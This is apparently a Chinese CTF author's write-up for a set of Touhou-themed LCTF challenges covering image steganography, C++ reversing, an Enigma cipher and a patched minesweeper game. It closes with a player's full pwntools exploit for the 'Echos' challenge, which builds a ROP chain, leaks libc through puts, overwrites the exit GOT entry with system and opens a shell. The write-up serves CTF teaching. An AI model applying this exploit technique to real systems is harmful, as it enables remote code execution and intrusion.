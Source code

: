 # Satori's Challenge

## 作者的自述

为什么会有这样一组题目呢？只是因为出题人非常闲而已。这次一共准备了四道题目，完整的复刻了游戏"东方地灵殿"中四面BOSS古明地觉(小五)的符卡流程。然而出题人的开发能力实在是太差了，最后差一点没法完整收场，虽然勉强完成了这组题目，但是也存在非常多的非预期，让题目难度骤降...

"想起"这个前缀是有独特意义的，除了第一道Misc之外，剩下的三道逆向都是我在之前LCTF出过的题目。Qt和壶中的大银河对应的是LCTF2016的两道逆向，而Lunatic-Game对应的则是LCTF2017的"滑稽博士"。用小五的捏他来出题一方面是题目数量不高(4道)，另一方面也有点怀旧的想法，很大概率这是我最后一次在LCTF出题了...

这一次的出题思路非常的简单：还原一点真实的东西。

作为一个学渣CTFer，从CTF中学到点东西是我每次的想法，然而事与愿违，每次面对比赛的逆向题目，我在做的事情是"猜测出题人的谜题是什么"。这种感觉就如同高考语文一样，实在是让人难以理解...虽然还是从中学到了很多"类似混淆的技术"，但是总是有种自娱自乐的感觉。

所以这一次的题目并没有专注于设计谜题，反而是将一切都写的明明白白，需要做的事情就是纯粹的逆向："我知道这是什么，我要做的是通过逆向来找出里面的关键数据"，大概这样的想法。

至于题目使用的语言，我选择的是C++17。从模板变参到智能指针，内联Vector到Copy-Constructor，这次用尽了我一年的开发力和C++知识来完成了我的题目...这么做也没有什么具体原因，仅仅是自己逆AOSP库的时候感觉很有趣，也很真实。

最后，这组题目难度其实非常简单，没能让Top3战队的大佬感觉到有趣实在是抱歉了...

从此开始、一千里
↓

<br />
<br />
<br />
<br />

## [Misc] 想起「恐怖的回忆」

题目给了一份Haskell源代码(可以用[stack][stack-url]进行编译)和编译好的PE文件，一张输入图片和输出图片。阅读源代码，即可知道这份程序是如何将Flag文本隐写到图片之中的。

Haskell逻辑其实并不难，大部分和Lisp很像，唯一的坑点是理解State单子和Writer单子...如果真的想认真读的话。

代码逻辑：

1. 使用0x05将Input对齐到32位
2. 将对齐后的数据分组，32位一组，做分组加密
3. 秘钥Key循环对齐到32位，大概是`(Key * N)[0:32]`这样
3. 分组加密模式为OFB
    * 加密盒的表达式为`IV' = Key Xor IV Xor 0x39 Xor 0xFF`
    * IV和Msg的表达式为`output = Message Xor IV'`
4. 将分组加密后的数据隐写到图片中，隐写方式为LSB，通道合并方式为Xor，使用R通道和G通道
5. 将output图片写入磁盘

数据分组和OFB加密的过程使用了Writer单子，加密盒的部分使用了State单子...但是我没有去掉函数名称，所以就算不认真读也能猜出来吧。

解法(check脚本在源码目录下)：

1. 使用Setgsolve将两张图片Xor
2. 再次使用Setgsolve提取Xor后图片的R，G最低位
3. 使用Key和初始IV进行OFB模式解密
4. 得到一长串文本，Flag在其中一行。

PS：这段文本是Brainpower的歌词...

![pnghs-flag](./pnghs-flag.jpg)

## [Re] 想起「湖中的大银河 ～ Lunatic」

这是一道坑逼题，所以文件名称是maze(迷宫)。坑点在Copy-Constructor(拷贝构造函数)中。

程序的流程非常简单，CBC模式的分组加密，但是在这个流程中会对Message和Key分别进行一次拷贝，触发拷贝构造函数。在拷贝构造函数中，除了进行必要的数据复制外，还额外的执行了一次`this->map(X)`操作。

具体的流程可以查看题目源代码，以及源码目录下的Check.py文件，完整的叙述了反向解密的流程。

除了坑点外，还要处理C++的继承和只能指针。但是：分组加密的加密盒是XOR表达式，你可以直接逐位爆破...这是最快的方式，也是非预期解法。出题人决定好好复习密码课本...

## [Re] 想起「Qt」

如同题目描述，这个程序复现的是Enigma密码机。对信号槽的复现可以在`signal.cpp`中找到，我主要参考了boost库的any容器，其实就是OOP+变参模板而已。但是这套复现没有什么意义，绝大部分的代码都可以直接使用C++17标准库中的`std::mem_fun`来完成...

有两种解法：

1. Enigma是**单字节**替换密码，直接逐位爆破即可获得Flag
2. 对程序逆向，分析出齿轮数目，齿轮关系，反射板映射...然后反向操作得到Flag

这两种解法都是正规解，因为出题人自己觉得验证题目好麻烦。

Pizza的爆破脚本：

![qt-flag](./qt-flag.png)

其实完全可以把齿轮关系弄的复杂一点的，比如一个齿轮一次带动2个齿轮运行，反射板也会旋转，这样就无法爆破了...然而出题人自己数学不好，并不知道如何保证表达式可逆...

## 想起「 Lunatic Game 」

送分题，C编写的小游戏，是个扫雷。10×10的格子里面有50个雷，基本上没人能完成。

只有Flag的输出使用了Haskell进行混淆，其他的逻辑没有任何约束。

可行的解法：

1. 找到判断胜负的jmp跳转，翻转它，这样GameOVer的时候就可以得到Falg
2. 在OD/x64dbg中进行第一条的操作，会更快速
3. 将`srand(time(NULL))`patch成`srand(int)`，这样雷的位置就是固定的了
4. 任何想得到的解法，因为题目没有任何GetFlag的约束，所以全部作弊方案都是可行的

## Echos

由sw友情赞助，题目本身非常简单

这道题目在部署的时候遇到了非常迷的问题，IO流不会及时刷新，导致**本地可以打通，远程却无法打通**的迷之Bug。

如果有dalao知道为什么会这样，希望能联系我一下。使用xinted+docker部署题目，GitHub上的项目。

贴上Venenof的exp吧：

```python
#!/usr/bin/env python2
#coding=utf8
from pwn import *
#context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = True

if local:
    cn = process('./echos')
    bin = ELF('./echos',checksec=False)
    libc = ELF('./libc64.so',checksec=False)
else:
    # cn = remote('172.81.214.122', 6666)
    cn = remote('md.tan90.me',12000)
    bin = ELF('./echos',checksec=False)
    libc = ELF('./libc64.so',checksec=False)
    pass


def z(a=''):
    if local:
        gdb.attach(cn,a)
        if a == '':
            raw_input()

prdi=0x00000000004013c3
prsi_r15=0x00000000004013c1
gadget=0x00000000004013bd  # pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
readn=0x00000000004011A6
pay = '8000\x00\x00\x00\x00' #r12
pay+=p64(0)*3
pay+=p64(gadget) + p64(0x0000000000403440) #rsp

cn.sendlineafter('size',pay)

size=0x3c0
sleep(0.2)
pay = p64(0x00000000004013B6)+p64(0x0000000000401190)
pay = pay.ljust(0x440-size,'a')
pay+=p64(0)*3
pay+=p64(prdi)+p64(bin.got['read'])+p64(bin.plt['puts'])
pay+=p64(prdi)+p64(bin.got['exit'])+p64(prsi_r15)+p64(0x10)*2+p64(readn)
pay+=p64(prdi)+p64(0x4034b8)+p64(bin.plt['exit'])+'/bin/sh\x00'
pay = pay.ljust(0x1000-size,'a')[:-1]
pay+='\n'
cn.send(pay)

cn.recvuntil(':')
cn.recvuntil(':\n')
lbase = u64(cn.recvuntil('\n')[:-1].ljust(8,'\x00'))-libc.sym['read']
success('lbase: '+hex(lbase))
system = libc.sym['system']+lbase
cn.sendline(p64(system))

cn.interactive()
```
